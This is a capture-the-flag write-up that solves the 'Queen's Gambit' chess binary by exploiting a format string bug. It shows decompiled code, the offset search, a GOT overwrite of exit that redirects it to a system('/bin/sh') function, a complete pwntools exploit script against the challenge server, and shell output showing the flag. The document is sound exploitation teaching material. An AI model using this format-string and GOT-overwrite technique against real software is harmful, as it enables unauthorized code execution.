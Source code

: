 # **Queen's Gambit**
## Task
nc challenges.ctfd.io 30458
File: chess
Tag: binary exploitation

## Solution

### Checksec 
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
* No Canary found assume BOF
* System 64 bit
* No Pie assume to overwrite GOT

### Load file in IDA pro 
With IDA pro, it helped us to define the `main`
## Pseudocode C main
```c
int __fastcall main(int a1, char **a2, char **a3)
{
  size_t v3; // rax
  size_t v4; // rax
  int result; // eax
  int v6; // [rsp+Ch] [rbp-C4h] BYREF
  char src[24]; // [rsp+10h] [rbp-C0h] BYREF
  char s[8]; // [rsp+28h] [rbp-A8h] BYREF
  char dest[160]; // [rsp+30h] [rbp-A0h] BYREF

  puts("\n================================================================");
  puts("                Q U E E N ' S    G A M B I T                    ");
  puts("================================================================\n");
  puts("                              ()    ");
  puts("                           .-:--:-. ");
  puts("                            \\____/  ");
  puts("                            {====}  ");
  puts("                             )__(   ");
  puts("                            /____\\  ");
  puts("                             |  |   ");
  puts("                            /____\\  ");
  puts("                           (======) ");
  puts("                           }======{ ");
  puts("                          (________)");
  puts("\n================================================================");
  puts("\nChess puzzles to train you brain.\nBecome a Grand Master.\n");
  puts("================================================================\n\n");
  puts("1) Play");
  puts("2) Chess Server Admin");
  puts("3) Quit");
  printf("\n>> ");
  fgets(s, 8, stdin);
  __isoc99_sscanf(s, "%d", &v6);
  if ( v6 == 1 )
  {
    printf("Enter your name:\n>> ");
    fgets(src, 16, stdin);
    src[strlen(src) - 1] = 0;
    sub_40122C();
    strcpy(&dest[strlen(dest)], "\nCongratulations ");
    strcat(dest, src);
    strcpy(&dest[strlen(dest)], "! Your answer was correct!\n\nYour winning move was: \n");
    strcat(dest, ::src);
    printf(dest);
    v3 = strlen(dest);
    memset(dest, 0, v3);
    sub_40142C();
    strcpy(&dest[strlen(dest)], "\nCongratulations ");
    strcat(dest, src);
    strcpy(&dest[strlen(dest)], "! Your answer was correct!\n\nYour winning move was: \n");
    strcat(dest, ::src);
    printf(dest);
    v4 = strlen(dest);
    memset(dest, 0, v4);
    sub_4015F9();
    strcpy(&dest[strlen(dest)], "\nCongratulations ");
    strcat(dest, src);
    strcpy(&dest[strlen(dest)], "!\nThat was the final puzzle!!!\n\nYour Winning moves was: \n");
    strcat(dest, ::src);
    printf(dest);
    result = puts("\n\nYou defeated the Borgovotron!\nKeep training and you'll be a Grand Master in no time!!!\n");
  }
  else
  {
    if ( v6 == 2 )
      sub_4011F5();
    result = puts("\nQuitting!");
  }
  return result;
}
```
In totally, it is a chess game which has 3 round
Read the source we can easily win the game with steps respectively respond to "Ra1" "Qg7" "Kd2" input. But this challenge is not easy like that :)

## After win the game we got not thing
```bash
Congratulations iXz!
That was the final puzzle!!!

Your Winning moves was:
Kd2


You defeated the Borgovotron!
Keep training and you'll be a Grand Master in no time!!!
```
 Then keep on examining the source in IDA 
 In the Strings window, I have found out the interest string "/bin/sh" :))
 ![](Strings.png)
 I got the shell func at `0x4011C2` address

 ```c
 int sub_4011C2()
{
  printf("Welcome, Mr Shaibel...\n\n#");
  fflush(stdout);
  return system("/bin/sh");
}
```
Then I focus on overwrite the return address and overwrite GOT table
Another noticeble bug is `printf(dest)` without format string -> format string exploit

Finally, I was win this challenge by overwrite GOT `exit` through format string vulnability

Easy to call the `exit` by input wrong step, so We have to overwrite the exit with the shell func then set wrong input to WIN

```c
  fgets(src, 128, stdin);
  __isoc99_sscanf(src, "%s", s1);
  result = strcmp(s1, "Ra1");
```

the author use the `sscanf` and `strcmp` to check step move input. Both of the functions inorge the space character. Therefore, it's easy for us to set format string payload after the space

# However, First I have to find the offset of format string

```bash
$ python -c "print('1\n'+'AABB\n'+'Ra1 ' +'%x.'*40 + '\nQg7'+'\nKd2\n')" > Input.txt
$ ./chess < Input.txt
```

```bash
Congratulations AABB! Your answer was correct!

Your winning move was:
Ra1 4041e0.1d.60.0.ffffe070.0.0.42424141.0.0.a31.6e6f430a.74616c75.42414120.2072756f.77207265.6572726f.756f590a.6e696e6e.77206576.3161520a.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.f7e177cf.0.41f8d1f4.4010e0.
```

`42424141` -> offset is 8
```bash
 ► 0x401a67    mov    eax, 0
   0x401a6c    call   printf@plt <printf@plt>
   ....
pwndbg> x/xg 0x404068
0x404068 <exit@got.plt>:        0x00000000004010d6
```
shell func has address : `0x4011c2`. we just have to overwrite 2 head bytes and 0x40 tail are the same both
`payload = "Ra1 %4470x%8$n"`. `4470` is mean 0x11c2(4556) = 4470 + 76 -> 76 byte which was already written out 

# After the `printf` instruction
```bash
   0x401a6c    call   printf@plt <printf@plt>
 ► 0x401a71    lea    rax, [rbp - 0xa0]
 pwndbg> x/xg 0x404068
 0x404068 <exit@got.plt>:        0x00000000004011c2
```
`got.exit` was overwritten !!

### Script python using pwntool
```python
from pwn import *

binary = context.binary = ELF('./chess')

p = remote('challenges.ctfd.io', 30458)
#p = process(binary.path)
# "\x68\x40\x40A\x00\x00\x00\x00\x00B" is p64(binary.sym.got.exit)
p.sendline("1")
p.sendlineafter("Enter your name", "\x68\x40\x40A\x00\x00\x00\x00\x00B")

# send payload format string
p.sendlineafter("h1", b"Ra1 %4470x%8$hn")

# send wrong step move to call got.exit()
p.sendlineafter("- Qg7", "Qg8")

# maintain shell
p.interactive()
```


### Output

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenges.ctfd.io on port 30458: Done
[*] Switching to interactive mode


>>
Incorrect!!
Welcome, Mr Shaibel...

#/bin/sh: 0: can't access tty; job control turned off
# $ ls
bin  chess  dev  flag.txt  lib    lib32  lib64
$ cat flag.txt
# flag{And_y0u_didnt_ev3n_n33d_th3_pills}
```

